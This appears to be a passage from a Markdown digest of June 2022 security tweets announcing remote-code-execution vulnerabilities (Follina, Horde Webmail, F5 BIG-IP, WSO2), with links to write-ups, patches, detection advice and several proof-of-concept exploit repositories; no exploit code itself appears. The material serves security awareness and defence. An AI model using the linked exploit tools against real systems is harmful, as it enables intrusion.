Let's learn more about the newest exploit going around, Follina RCE - CVE-2022-30190.  Joe Helle takes us through and shows us a couple ways this exploitation works and what you can do to remedy this current issue.

https://t.co/uvIHdUi8QP

#follina #cve #exploitation https://t.co/uXciZocib3
</blockquote>

* https://tcm-sec.com/follina-rce-exploitation-cve-2022-30190/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>144</code></td>
</tr></table>

---

# SonarSource
**https://twitter.com/SonarSource/status/1532019810619559939 _at 2022-06-01 15:22:41_**
<blockquote>
⚠️ Horde Webmail is affected by an unpatched code vulnerability (CVE-2022-30287) that allows attackers to take over the mail server when a malicious email is opened. Learn more from our security research:

https://t.co/bgpUsljVR3

#appsec #security #vulnerability
</blockquote>

* https://blog.sonarsource.com/horde-webmail-rce-via-email/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---

# 0patch
**https://twitter.com/0patch/status/1532006627225784323 _at 2022-06-01 14:30:17_**
<blockquote>
Free Micropatches For "Follina" Microsoft Diagnostic Tool Remote Code Execution 0day (CVE-2022-30190) #Follina
https://t.co/lyNPrgdObJ https://t.co/6UABGE6qor
</blockquote>

* https://blog.0patch.com/2022/06/free-micropatches-for-follina-microsoft.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# petruknisme
**https://twitter.com/petruknisme/status/1531931250503536640 _at 2022-06-01 09:30:46_**
<blockquote>
I created PoC tool with interactive shell for exploiting #CVE-2022-1388 F5 BIG-IP iControl REST Auth Bypass RCE written in #Rust with #PoC Lab. 

Tool: https://t.co/ytCgvUjgTl
Lab setup for PoC: https://t.co/vZ9xhjR8xx

Btw, I'm using @gitpod as my daily development env. https://t.co/jXgGOdyUcq
</blockquote>

* https://github.com/aancw/CVE-2022-1388-rs
* https://github.com/aancw/CVE-2022-1388-rs/blob/main/LAB-PoC/README.md

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1531919227539570690 _at 2022-06-01 08:43:00_**
<blockquote>
Trend Micro has a report out on the recent attacks targeting CVE-2022-29464, a remote code execution vulnerability in WSO2 servers

https://t.co/DYFAGxkiQn https://t.co/EQotRJbkyu
</blockquote>

* https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1531895959394861057 _at 2022-06-01 07:10:32_**
<blockquote>
PoC-CVE-2022-30190
 CVE 0-day MS Offic RCE aka msdt follina

https://t.co/2JZTQRo27P

#cve #poc

GitHub
GitHub - PwnC00re/PoC-CVE-2022-30190
Contribute to PwnC00re/PoC-CVE-2022-30190 development by creating an account on GitHub.

https://t.co/pFa42ry5Fr https://t.co/LYOzEc4SQr
</blockquote>

* https://github.com/PwnC00re/PoC-CVE-2022-30190
* https://t.me/hackgit/4419

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1531884486341840897 _at 2022-06-01 06:24:57_**
<blockquote>
1/ The exploitation of CVE-2022-30190 #Follina isn’t hard to detect

In fact, proc creation logs with parent info are enough
https://t.co/fH8Ww1f6JA

It also isn’t hard to apply the workaround via GPO

The problem with this 0day is that 99% of the possible victims …
</blockquote>

* https://twitter.com/cyb3rops/status/1531154093451902978

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

# seguridadyredes
**https://twitter.com/seguridadyredes/status/1531879512132263936 _at 2022-06-01 06:05:11_**
<blockquote>
New Microsoft Office Attack Vector via "ms-msdt" Protocol Scheme (CVE-2022-30190).

https://t.co/HIdikZTFXJ

CVE-2022-30190
https://t.co/AVlUUp1S3l

Rapid Response: Microsoft Office RCE - “#Follina” #MSDT Attack.

https://t.co/Y7PZqIzfAG
</blockquote>

* https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694
* https://github.com/bytecaps/CVE-2022-30190
* https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

